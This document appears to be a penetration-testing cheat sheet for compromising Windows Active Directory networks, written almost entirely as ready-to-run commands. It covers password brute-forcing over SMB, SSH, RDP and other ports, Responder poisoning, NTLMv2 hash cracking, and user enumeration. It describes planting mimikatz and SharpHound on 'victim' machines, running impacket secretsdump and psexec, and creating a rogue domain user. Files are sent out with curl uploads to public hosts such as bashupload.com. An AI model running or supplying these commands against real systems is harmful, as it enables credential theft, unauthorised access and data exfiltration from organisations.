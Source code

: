 # <h3> Steps:-</h3>
```
1. First of all we want Inventory of organization
2. Separate IP’S of Systems, Servers, Networking Devices   
3. Verify these IP'S Using PingInfo / AngryIPScanner
4. Standeruser For Auth Scan but try from your END to find user/pass
```
# <h3> Target </h3>
```
For Ad Systems
1). Getting IP
2). Getting Local USER
3). Getting Local USER PASSWORD
4). Dump All Hashes 
5). Enumerate for AD User
6). Enumerate for AD User Password
7). Enumerate for AD Domain
8). Enumerate for AD Domain Password
9). Login
```
# <h3> Brute-Force As Local User On These Port's </h3>
```
FTP(21) 
SSH(22) 
Kerberos(89) 
SMB(139/445) 
LDAP(389) 
MSSQL(1433/1434) 
MYSQL(3306) 
RDP(3389) 
VNC(5900)
```
# <h2> Tool 1. TIP ( But Go For SMB First ) Only For local user account. </h2>
```
msfconsole
auxiliary/scanner/smb/smb_login
set PASS_FILE /root/Desktop/pass.txt
set USER_FILE /root/Desktop/user.txt
set RHOSTS file:/root/Desktop/host.txt
```
```
use auxiliary/scanner/smb/smb_enumshares
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
```
use auxiliary/scanner/smb/smb_lookupsid
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
# <h3> If AD Implemented. </h3>
```
set SMBDomain ADDomain 
```
# <h3> If LOCKOUT Policy is Set Then Use. </h3>
```
set ABORT_ON_LOCKOUT true
```
# <h2> Tool 2. Getting USERLLMNR/NBT-NS Poising with the help of Responder. </h2>
```
responder -I ens33 -wdrf
responder -I ens33 -wd
responder -I ens33 -A
responder -I ens33 -wdF -b
responder -I ens33 -wdF --lm --disable-ess
responder -I ens33 -e 192.168.1.2
```
# <h2> Hash Decrypter </h2>
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
john SMB-NTLMv2-SSP-192.168.100.101.txt –wordlist=/usr/share/wordlists/rockyou.txt
hashcat -m 5600 HTTP-NTLMv2-fe80::ddc5:3b8f:e421:a88a.txt /usr/share/wordlists/rockyou.txt
https://crackstation.net/
https://hashes.com/en/decrypt/hash
```
# <h2> Leak Data Checker </h2>
```
https://leakcheck.io/
https://breachdirectory.org/
https://www.dehashed.com/
```
# <h2> Tool 3. ENUM4LINUX. </h2>
```
enum4linux -U 10.10.0.50
enum4linux -S 10.10.0.50
enum4linux -P 10.10.0.50
enum4linux -o 10.10.0.50
enum4linux -U 10.10.0.50
enum4linux -a 10.10.0.50
```
# <h2> Tool 4. SMBMAP. </h2>
```
smbmap -H 192.168.1.40
smbmap -H 192.168.1.17 -u user -p pass
```
# <h2> Tool 5. SMBCLIENT. </h2>
```
smbclient -L //10.10.0.50/
smbclient -L //10.10.0.50/ -U '' -N
smbclient //10.10.0.50/tmp
```
# <h2> Tool 6. KERBRUTE. </h2>
```
msf> use auxiliary/gather/kerberos_enumusers
gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>
smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>
smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
enum4linux -a -u "user" -p "password" <DC IP>
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```

# <h2> Tool 7. Bloodhound. </h2>
```
First Start ------>>>>> neo4j console
Open it in browser ------>>>>> http://localhost:7474/
Login with ------>>>>> neo4j/123456 Default pass is {neo4j/neo4j}
Open ------>>>>> bloodhound in terminal
Login ------>>>>> user/pass
```

# <h3> Connect with victim windows systems and put these 3 files. </h3>
```
1). mimikatz.exe
2). powerView.ps1
3). SharpHound.ps1
```

# <h3> Use these cmds in victim systems. </h3>
```
1). powershell -ep bypass
2). ..\SharpHound.ps1
3). Invoke-Bloodhound -CollectionMethod All -Domain controller.local -ZipFileName loot.Zip
```

# <h3> Take loot.Zip file to import bloodhound in our systems.  </h3>
```
1). import graph ---->>> uploaded file here
2). Check it and enjoy it.
```

# <h2> Tool 8. IMPACKET. </h2>
```
impacket-psexec ad.domain/user:pass@IP
impacket-wmiexec ad.domain/user:pass@IP
impacket-secretsdump ad.domain/user:pass@IP
impacket-GetADUsers ad.domain/user:pass@IP
impacket-mimikatz ad.domain/user:pass@IP
impacket-smbpasswd ad.domain/user:pass@IP
```
# <h2> Tool 9. RPC-Client. </h2>
```
rpcclient -U ad.domain%user:pass IP
Domain Information Query ----->>>> querydominfo
Enumerating Domain Users ----->>>> enumdomusers
Enumerating Domain Groups ----->>>> enumdomgroups
Group Queries ----->>>> querygroup 0x200
User Queries ----->>>> queryuser User
Enumerating Privileges ----->>>> enumprivs
Get Domain Password Information ----->>>> getdompwinfo
Creating Domain User  ----->>>> createdomuser hacker  ----->>>> setuserinfo2 hacker 24 Password@1
Delete Domain User ----->>>> deletedomuser hacker
Net Share Enumeration ----->>>> netshareenumall/netshareenum
```
# <h2> Tool 10. Transfer data from one system to another </h2>
```
1). putty-tools { used if SSH is opened to recevie any file}
pscp user@192.168.138.116:/Users/Aniket/Desktop/task.txt ~/Documents 

2). python http.server
python -m SimpleHTTPServer 9000
python3 -m http.server 9000

3). Keep
Website --------------->>>>> https://www.keep.sh/
CMD --------->>>>> curl --upload-file ./your-file.txt https://free.keep.sh ------>>>>> https://free.keep.sh/9ab64df49d/your-file.txt
Download --------------->>>>> curl -L https://free.keep.sh/9ab64df49d/your-file.txt > your-file.txt 

4). Bashupload
Website --------------->>>>> https://bashupload.com/
CMD --------------->>>>> curl bashupload.com -T your_file.txt
Download --------------->>>>> wget bashupload.com -T your_file.txt
```
# <h2> Exploit Services by Searchsploit, Exploit DB </h2>
